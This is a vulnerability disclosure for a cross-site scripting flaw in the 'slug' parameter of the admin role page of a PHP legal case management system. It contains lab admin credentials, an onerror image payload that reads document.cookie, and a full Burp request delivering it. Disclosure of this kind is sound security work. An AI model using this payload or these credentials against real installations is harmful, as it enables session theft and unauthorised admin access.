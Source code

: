 ## Legal Case Management System

## XSS on `/admin/role`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/role
```

The parameter `slug` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/role HTTP/1.1
Host: 192.168.150.131
Content-Length: 413
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOHUm9y3xKJBRHMjS
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/role
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IkRlQlorZ0E5N2U4aXA1bzJKNlYrXC9RPT0iLCJ2YWx1ZSI6IjhUNzFxdVV2SU5vQmw0Wit3SFozZEVURHZQdUljY3RDRjY0RDI5XC9nbGJJY1NnbFU5azRGNU55aVpZaFZscnBsIiwibWFjIjoiMTFiYmFlMWFjYjZlYThkN2RjZmVlNDg3Mjg1OWU2OTg0NjQ2YTkzNmE0MjJiZGNkNzgzYjU2MzIzNDllZWU1YyJ9; test_session=eyJpdiI6IkNIWk9qaVVtN1cwRzZyaXo3RTE0Ync9PSIsInZhbHVlIjoidE5ncjlCOVU1amFHa1huWlhlQWxWNXBSd0NxSW9UTDNxMWpkb25OMWdYN29OU3NNcktiWnI3a3ZONFFIWFpLaCIsIm1hYyI6ImYyZjI0ODg0M2Y3YTc0MTA5NzI1YjRlZGY1OTIyNmUzYzdmZTEzZTFiYzgwMjUxMWNmOTY5MzQ0ZTI0NzNjOTMifQ%3D%3D
Connection: close

------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="slug"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryOHUm9y3xKJBRHMjS
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryOHUm9y3xKJBRHMjS--

```

### Screenshot

![image-20240509194220290](./screenshot/image-20240509194220290.png)
